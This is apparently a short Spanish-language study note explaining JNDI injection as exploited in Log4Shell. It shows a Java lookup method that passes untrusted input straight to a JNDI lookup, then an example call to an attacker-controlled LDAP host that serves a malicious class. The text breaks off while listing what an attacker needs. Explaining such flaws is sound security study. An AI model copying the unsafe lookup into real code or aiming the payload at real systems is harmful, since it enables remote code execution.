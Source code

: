
Ataque usado en la vulnerabilidad [[Log4Shell]] de [[Log4j]]

La inyección [[JNDI]] (Java Naming and Directory Interface Injection) es una vulnerabilidad de seguridad que ocurre cuando una aplicación Java acepta entradas no confiables y las utiliza en consultas JNDI sin la debida validación o sanitización

La integración con otros servicios de directorio, unido a la ausencia de ciertos controles hace que podamos inyectar llamadas a recursos no controlados (como un servidor en nuestro poder) y que este le sirva una class maliciosa.

```java
public void lookup(String name) {
    try {
        Context ctx = new InitialContext();
        Object obj = ctx.lookup(name);
        // Uso del objeto encontrado
    } catch (NamingException e) {
        e.printStackTrace();
    }
}
```

```java
lookup("ldap://malicious-server.com:1389/evilObject");
```

## Qué es necesario para esta explotación? 

- Un servidor malicioso: Con una inyección debemos apuntar a un servidor que controlemos. Este debe tener instalador el servicio que hayamos decidido invocar mediante JNDI mediante la petición maliciosa http.
- Alterar la petición: Normalmente se usar campos como [[User-Agent]]